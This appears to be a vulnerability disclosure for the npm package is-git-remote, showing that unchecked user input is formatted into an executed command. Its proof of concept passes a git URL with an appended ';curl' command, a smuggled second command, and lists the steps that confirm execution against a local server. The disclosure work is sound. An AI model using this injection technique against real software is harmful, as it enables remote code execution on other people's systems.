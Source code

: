 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
const isGitRemote = require("is-git-remote");
isGitRemote.default(
  'https://github.com/Mik317/PyScan.git;curl "http://localhost/RCE"'
);
```

2. Run a `py` server in order to verify the `cUrl` command: `python3 -m http.server 80`
3. Execute the following commands in another terminal:

```bash
npm i is-git-remote # Install affected module
git init # Avoid problems with the file validation
node poc.js #  Run the PoC
```

4. The `cUrl` command will be executed ... and the `py` server will receive a request to the `http://localhost/RCE` address
